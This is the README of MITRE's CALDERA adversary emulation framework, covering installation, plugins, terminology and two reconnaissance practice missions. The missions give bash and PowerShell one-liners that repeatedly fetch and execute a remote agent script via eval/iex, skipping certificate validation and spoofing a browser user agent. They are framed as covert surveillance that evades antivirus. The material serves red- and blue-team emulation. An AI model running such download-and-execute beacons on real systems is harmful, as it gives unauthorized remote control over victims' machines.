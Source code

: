# CALDERA

CALDERA is an automated adversary emulation system, built on the [MITRE ATT&CK™ framework](https://attack.mitre.org/), 
that performs post-compromise adversarial behavior inside computer networks. It is intended for both red and blue teams.

Python 3.5.3+ is required to run this system.

![alt text](readme.png)

## Installation

Start by cloning this repository recursively. This will pull all available plugins. 
```
git clone https://github.com/mitre/caldera.git --recursive
```

From the root of this project, install the PIP requirements.
```
pip install -r requirements.txt
```

Then start the server.
```
python server.py
```

## Versions

Bleeding-edge code can be run by using the latest master branch source code. Stable versions are tagged
by major.minor.bugfix numbers and can be used by cloning the appropriate tagged version:
```
git clone --branch 2.1.0 https://github.com/mitre/caldera.git --recursive
```

Check the GitHub releases for the most stable release versions.

> **IMPORTANT**: The core system relies on plugins (git submodules). If you are unfamiliar with this concept and want to run the bleeding-edge code, a "git pull" on this code will likely not be sufficient. You will also need to update the submodules to ensure all plugins are current. One way to do this is by using an alias, such as:
```alias tig="git reset --hard origin/master && git checkout master && git reset --hard origin/master && git pull && git submodule foreach git checkout master && git submodule foreach git pull"```
or for Windows:
```set "tig=git reset --hard origin/master && git checkout master && git reset --hard origin/master && git pull && git submodule foreach git checkout master && git submodule foreach git pull"```


> *NOTE*: The functionality and schema used by the first release of CALDERA is now stored within the *ADVERSARY* 
plugin. This plugin is loaded automatically with the rest of the submodules, but will not be loaded in 
CALDERA at runtime unless added to the list of submodules in *conf/local.yml*. More information about the *ADVERSARY*
 plugin can be found at the repository for the [Adversary plugin](https://github.com/mitre/adversary).

## Terminology

CALDERA works by attaching abilities to an adversary and running the adversary in an operation. 

* **Ability**: A specific task or set of commands mapped to ATT&CK Tactics and Techniques, written in any language
* **Adversary**: A threat profile that contains a set of abilities, making it easy to form repeatable operations 
* **Agent**: An individual computer running a CALDERA agent, such as the [54ndc47 plugin](https://github.com/mitre/sandcat)
* **Group**: A collection of agents
* **Operation**: A start-to-finish execution of an adversary profile against a group

CALDERA ships with a few pre-built abilities and adversaries with the [Stockpile plugin](https://github.com/mitre/stockpile), 
but it's easy to add your own. 

## Plugins

CALDERA is built using a plugin architecture on top of the core system (this repository). Plugins are 
software components that plug new features and behavior into the core system. Plugins reside
in the plugins/ directory. For more information on each plugin, refer to their respective README files.

Load plugins into the core system by listing them in the conf/local.yml file, then restart
CALDERA for them to become available.

## Planning

When running an operation, CALDERA hooks in a planning module that determines in which order to run each ability. 
An operation executes abilities within phases, but if there are multiple abilities in a phase, the planning module
determines which to run first. The planning module can be changed in the configuration file, local.yml.

## Getting started

To understand CALDERA, it helps to run an operation. Below are pre-built missions you can follow
along with to understand the system. These missions will assume CALDERA is running locally on a laptop.

### Mission #1: OSX reconnaissance

*This mission requires an OSX laptop.*

> Perform reconnaissance on a compromised OSX laptop. Your employer needs a list of the user’s preferred WIFI networks to perform surveillance on them. Grab this list and collect anything else you can, then get out of town. Quickly. Leave no trace. There is one caveat: the laptop’s AV scans the machine in full every minute. 
You must complete this mission in less than 60 seconds. 

Start by booting up the core system.
```
python server.py
```

Then start a 54ndc47 agent on the same machine.
```
while true; do eval "$(curl -sk -X POST -H "file:54ndc47.sh" https://localhost:8888/file/render?group=client)"; sleep 60; done
```

Move to a browser, at https://localhost:8888, logging in with the credentials admin:admin. Click into the Chain plugin and use the "Manage Operations" section to fire off an operation using the mission1 adversary. 

Once the operation is complete, compare the execution time of the first and last commands. Was
the mission a success? Did the mission1 adversary run without a trace? Can you figure out why the 
abilities are being run in the order they are?

### Mission #2: PowerShell reconnaissance

*This mission requires PowerShell 3.0+ and is compatible with the open-source version.*

> Perform reconnaissance on a compromised Windows laptop. Your employer needs a list of all processes running
 on the machine, so make sure this is fetched first. Then, perform other recon tasks and get out
 before you get caught. 

Perform the same steps as mission #1 - with the exception of:

1. Start a PowerShell version of 54ndc47, instead of a bash version.
```
while($true) {$ErrorActionPreference='SilentlyContinue';$url="https://localhost:8888/file/render"; $ps_table = $PSVersionTable.PSVersion;If([double]$ps_table.Major -ge 6){iex (irm -Method Post -Uri $url -Headers @{"file"="54ndc47.ps1"} -UserAgent ([Microsoft.PowerShell.Commands.PSUserAgent]::Chrome) -SkipCertificateCheck);}else{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$True};$web=New-Object System.Net.WebClient;$web.Headers.Add("file","54ndc47.ps1");$web.Headers.add("user-agent","Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36");$resp=$web.UploadString("$url",'');iex($resp);};sleep 60}
```

2. Run the mission2 adversary, instead of mission1.

## Developers

Be a ninja committer: changes should aim for the smallest change set possible to achieve the goal. 
Additionally, changes should be consistent with the general format and design of what already exists.

### GIT flow

We use the basic feature branch GIT flow. Create a feature branch off of master and when ready, submit a merge 
request. Make branch names and commits descriptive. A merge request should solve one problem,
not many. 

## Licensing

In addition to CALDERA's open source capabilities, MITRE maintains several in-house CALDERA plugins that offer 
more advanced functionality. For more information, or to discuss licensing opportunities, please reach out to 
caldera@mitre.org or directly to MITRE's Technology Transfer Office at 
https://www.mitre.org/about/corporate-overview/contact-us#technologycontact.

## Related MITRE Work

[BRAWL Game](https://github.com/mitre/brawl-public-game-001) - Data set created by the BRAWL project representing
one CALDERA operation with data collected by Microsoft Sysmon and other sensors.

[CASCADE](https://github.com/mitre/cascade-server) - Prototype blue team analysis tool to automate investigative work.

## Acknowledgements

[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
